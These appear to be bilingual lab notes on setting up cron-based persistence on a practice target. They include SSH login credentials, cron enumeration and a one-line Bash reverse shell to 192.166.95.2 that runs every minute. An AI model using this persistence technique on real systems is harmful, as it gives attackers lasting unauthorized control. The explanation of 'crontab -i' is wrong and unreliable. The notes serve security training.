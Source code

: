 Target IP Address : 192.166.95.3

```
ssh student@192.166.95.3

password
```

we're focusing on setting up a cron job.

We can list out the contents of the home directory. Once we have set up our cron job, we can remove this wait binary to simulate what would happen if the student user account password was changed, therefore, meaning that we could not gain access to the target system anymore, because we don't know the new password.

```
ls -al

wait
```

We can enumerate the various cron jobs by

```
cat /etc/cron*
```

`/etc/crontab`: The crontab file is where you can add new cron job.

In order to create a cron job, we can create a simple cron file and then add the cron file to the crontab file.

`&`: ampersand. descriptor.

```
echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/192.166.95.2/1234 0>&1'" > cron
```

这条命令会将一个Cron作业写入到名为"cron"的文件中。该作业定义了一个在每分钟运行一次的计划任务，任务内容是在后台通过Bash shell执行一个命令。该命令将会建立一个TCP连接到IP地址为192.166.95.2，端口号为1234的主机，并将Bash shell的标准输入和输出重定向到该连接。这个命令的目的是在目标主机上运行一个反向Shell，以便攻击者可以在远程控制目标主机。请注意，这个命令可能会被用于非法活动，因此请谨慎使用或避免使用。

This command writes a cron job to a file named "cron". The job is scheduled to run every minute and it executes a command that spawns a reverse shell to a remote host. Specifically, the command launches a Bash shell in the background and connects it to the IP address 192.166.95.2 on port 1234 via TCP. It then redirects the input and output of the Bash shell to the network connection. This command is typically used for malicious purposes and can be used to gain unauthorized access to a remote system, so it should be used with caution or avoided altogether.

```
cat cron
```

`crontab -i`: add this cron job. This will add it as a cron job.

```
crontab -i cron
```

这个命令会将名为"cron"的文件中的Cron作业添加到当前用户的Cron表中。"-i"选项会在添加作业之前先提示用户确认。因此，这个命令会打开当前用户的Cron表进行编辑，用户可以查看并确认要添加的作业。如果用户确认添加，则该作业将被添加到Cron表中并在计划时间自动运行。该命令的目的是将之前创建的反向Shell任务添加到计划任务中，以便在目标主机上启动反向Shell。请注意，这个命令可能会被用于非法活动，因此请谨慎使用或避免使用。
